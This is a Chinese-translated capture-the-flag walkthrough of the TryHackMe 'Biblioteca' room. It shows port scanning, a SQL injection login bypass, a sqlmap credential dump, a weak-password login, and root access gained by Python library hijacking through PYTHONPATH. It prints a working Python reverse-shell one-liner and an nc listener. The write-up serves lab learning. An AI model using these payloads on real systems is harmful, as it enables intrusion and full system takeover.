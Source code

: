 # TryHackMe: Biblioteca

> 原文：<https://infosecwriteups.com/tryhackme-biblioteca-c56be949564c?source=collection_archive---------0----------------------->

## 走查

# 介绍

嘿伙计们！这一次，让我们来根 **TryHackMe** 中被评为**中等**(难度)的 **Biblioteca** 房间。我们加油吧！

![](img/ef5a8db873246221ce5e04c3a217b673.png)

# 首字母

```
export IP=<your_IP>
```

## 列举

让我们从端口扫描开始:

```
rustscan -a $IP --ulimit 5000 | tee rustscan.txt
```

通过 rustscan 我们了解到有两个开放的端口，即 22 ( **ssh** )和 8000 ( **http** )。

让我们深入这些港口。

```
nmap -sC -sV -p22,8000 -Pn -oN nmap $IP
```

![](img/0484eb600590ff00e11576740a0f9bb5.png)

nmap 扫描结果

我检查了端口 8000，因为我没有任何 ssh 凭证:)

## 端口 8000:

在访问 http 站点时，有一个登录页面

![](img/56636d5381e4c80d04577a353d6a9955.png)

登录页面

我创建了一个帐户并登录

![](img/0073064a40fdcd95f4b791423149fa18.png)

什么都没有，很可疑。

我运行了 **gobuster** 扫描，但没有得到任何其他页面。

然后我试了一下 **SQLi** ，你猜怎么着？成功了

![](img/84d93ac88dd5cecb66853cfd6966077f.png)

我在**密码栏**即`'or 1=1 -- —`中尝试了简单的有效载荷，我们登录了其他一些名为**斯莫奇**的用户账户！

![](img/00bbc247bc0d98db7d79e9aee0b91d51.png)

smokey 帐户已登录

# 利用:

我迅速启动了**打嗝套件** →捕获请求→保存请求

![](img/cc32e4111fdd5ee39a9513eae1e46669.png)

打嗝图像

## sqlmap

```
sqlmap -r sql.req --dbs --dump
```

并且得到了**用户名**、**邮箱**、&、**密码**

![](img/dc20c87da0c37702d47338286822d892.png)

sqlmap 结果

**SSH** 用凭证获取用户标志

![](img/949e3ec95912e1c5270651af41cda268.png)

但是等等，我们没有权限读取 **user.txt** 文件，因为所有者是另一个名为`hazel`的用户

在妥协后侦查了一段时间后，我什么也没发现。

后来我查了一下 TryHackMe 官方不和谐频道的一些讨论室，才知道对方用户`hazel's`的密码是**非常弱**。

起初，我用来自 **Seclists** →的 100 个常用密码运行 hydra

然后，我沮丧地输入了用户名密码，它的工作。即密码是用户名( **hazel:hazel** )

现在我拿到了 **user.txt**

![](img/b0d672de3fade9d5c121a6eaa13d679c.png)

# 特权:

如果你有用户的密码，首先运行的是`sudo -l` :D

![](img/dd5dc7389e1738ed194c3a9d303ce5cd.png)

看到了 **SETENV** ，这意味着我们可以在以 root 用户身份运行上述命令时设置环境变量！

查看 **hasher.py** 文件

![](img/ec7785cc7e10b42dc98b72058578a464.png)

经过一些研究/谷歌搜索，我看到了两篇非常有帮助的博客/文章(链接在最后)。

有某种类型的 **python 库劫持。**总之，要劫持，遵循以下步骤:

1.  获取 python 库(正在使用)的位置，在我们的例子中是它的 */usr/lib/python3.8/*
2.  将 **hashlib.py** 文件复制到 */tmp*

```
*cp /usr/lib/python3.8/hashlib.py /tmp/hashlib.py*
```

3.将**反向外壳**添加到 hashlib.py 文件中(任何你想要的地方)

使用反向外壳:

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

4.启动监听器

```
*nc -lnvp 1234*
```

5.要获得**外壳**，运行以下命令

```
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
```

> PYTHONPATH 环境变量指示一个(或多个)目录，Python 可以在其中搜索要导入的模块。

我得到了贝壳。**稳定**外壳，获得 **root.txt** 文件

![](img/b61b20008b43928b34b26bf91dd60cc4.png)

根

就这样，我们完成了这个房间。

感谢你阅读这篇博客。博客见，到时见 **Happy Hacking o7**

|| [房间](https://tryhackme.com/room/biblioteca) | [推特](https://twitter.com/namx05) | [博客 1](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/) | [博客 2](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) ||